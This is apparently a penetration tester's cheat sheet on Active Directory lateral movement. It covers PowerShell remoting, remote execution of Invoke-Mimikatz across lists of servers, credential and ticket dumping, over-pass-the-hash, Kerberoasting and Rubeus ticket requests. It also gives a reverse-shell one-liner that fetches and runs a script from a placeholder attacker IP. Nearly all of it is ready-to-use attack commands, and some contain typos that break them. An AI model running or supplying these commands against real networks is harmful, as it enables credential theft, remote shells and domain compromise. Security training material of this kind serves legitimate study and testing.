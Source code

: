 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername hostname.local\
Enter-PSSession $sess

No local file be included in Enter-PSSession/New-PSSession

**Execute commands on a machine(s) (non-interactive)**\
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}\
Invoke-Command -Computername hostname -Scriptblock {$executioncontext.sessionstate.languagemode}\
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content \<list-of-servers-file>)&#x20;

**Execute script on a machine**\
****Invoke-Command -Computername (Get-Content \<list-of-servers-file>) -FilePath  C:\scripty\a.ps1\
❗Invoke-Command -FilePath C:\scripty\a.ps1 -Session $sess\
&#x20;  Enter-PSSession -Session $sess\
&#x20;  functionname\_in\_aps1

**Execute locally loaded function on a list of remote machines**\
Invoke-Command -Scriptblock ${function:test} -Computername (Get-Content \<list\_of\_servers>)\
❗Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content \<list\_of\_servers>)

A file/function test.ps1 is creatd and . .\test.ps1 With the content

function test\
{\
&#x20;Write-Output "Test" \
}

then run "test"  => Then we can run Invoke-Command -Scriptblock ${function:test} -Computername a\_host

**Execute locally loaded function on a list of remote machines & passing arguemnts (only positional arguments could be passed)**\
****Invoke-Command -ScriptBlock ${fucntion:getPassHashes} -Hostname a\_host -ArgumentList



Use "Stateful" command using Invoke-Command:\
$sess = New-PSSession -computername host1\
Invoke-Command -session $sess -ScriptBlock {$Proc = Get-Process}\
Invoke-Command -session $sess -ScriptBlock {$Proc.Name}



**Copy script to other server**\
****Copy-Item .\Invoke-MimikatzEx.ps1 \\\hostname\c$\\'Program Files'

**Powershell reverse shell**\
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000\
****

## Mimikatz - Invoke-Mimikatz

* Dump credentials, tickets, passing & replaying hashes
* Using the code from ReflectivePEInjection mimikatz is loaded reflectively into memory.
* Administrative Privilege is needed for reading/writing to lsass e.g. dumping creds

**Dump credentials on local/remote machine**\
****Invoke-Mimikatz -DumpCreds   //default parameter\
****Invoke-Mimikatz -DumpCreds -Computername @("host1","host2")    //uses PowerShell remoting cmdlet Invoke-Command (need local admin privs on remote host)

**Write to lsass / "over pass the hash" - generate tokens from hashes (we have the hash for the User specified)**\
****Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /domain:dom.local /ntlm:\<ntlmhash> /run:powershell.exe"'

Creates a valid kerberos ticket using the ntlm hash of a user. Authenticate to Kerberos enabled Services afterfwards.

## **Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - **** Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel\
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"

**Dump the ticket**\
Invoke-Mimikatz -Command '"kerberos::list /export"'

\=> Now Crack\


## Over-Pass the Hash <a href="#over-pass-the-hash" id="over-pass-the-hash"></a>

### Description



### Attack commands

Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> \[/domain:DOMAIN] \[/opsec] /ptt

sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe




